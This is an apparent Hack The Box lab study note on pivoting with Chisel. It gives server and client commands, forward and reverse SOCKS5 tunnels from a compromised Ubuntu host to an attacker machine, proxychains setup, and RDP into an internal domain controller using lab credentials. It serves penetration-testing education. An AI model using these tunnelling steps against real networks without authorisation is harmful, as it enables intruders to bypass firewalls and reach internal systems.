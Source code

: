 ```yaml
---
title: SOCKS5 - Chisel
draft: false
tags:
  - chisel
---
```

**Chisel** - Written in Go. TCP/UDP based tunneling tool. Secured using SSH. Can create a client-server tunnel connection in a firewall restricted environment. 

Scenario:

Attacker -> Ubuntu -> DC(172.16.5.19)

## Installation

```shell-session
jadu101@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

```shell-session
jadu101@htb[/htb]$ cd chisel
go build
```


## Chisel Server

After transferring Chisel server to ubuntu machine, let;s start the server session:

```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

Chisel listener will listen for incoming connections on port 1234 using SOCKS5 and forward it to all the networks that are accessible from the pivothost.

## Chisel Client

Now on our attacker machine, let's start chisel client:

```shell-session
jadu101@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

Chisel client has created tunnel between chisel server and client and now is listening on port 1080. 

## Proxychains

Modify `/etc/proxychains.conf` and add 1080 port at the end. 

```shell-session
jadu101@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

## Pivoting to DC

Now we can access DC network which is two network hops away from the attacker machine:

```shell-session
jadu101@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot

Earlier, we used Ubuntu server as Chisel server.

There are scenarios where firewall rules restrict inbound connections to our compromised target. If this is the case, we use Chisel with the reverse option. 

`--reverse`: The server will listen and accept connections and they will be proxed through the client. 

### Chisel Server

Let's start Chisel server on attacker host:

```shell-session
jadu101@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

### Chisel Client

Now, we will connect from Ubuntu PivotHost to our attacker host:

```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```
### Proxychains

```shell-session
jadu101@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

Now we can access DC network:

```shell-session
jadu101@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel - Cheatsheet

There are many ways for tunneling but my favorite way is **chisel**.

[Here](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)is a good chisel cheatsheet created by 0xdf. 

Let's say you are on the compromised system and you found 192.168.122.4 host live and connected to your compromised system. It has port 80 open so I would have to tunnel to access that port 80 running on 192.168.122.4.

1. You first upload **chisel** to the compromised system using wget or curl.

![](https://i.imgur.com/bw7gY2r.png)

2. Now on your local machine, start Chisel server listening on whatever port you prefer (In this case 9000).

![](https://i.imgur.com/8uPSoY6.png)

3. Now on the compromised system, tunnel target machine's port to local machine's listener.

![](https://i.imgur.com/cOCJDW7.png)

4. Now on your local machine, you can access port 80 of 192.168.122.4 as if you are accessing service running locally. 
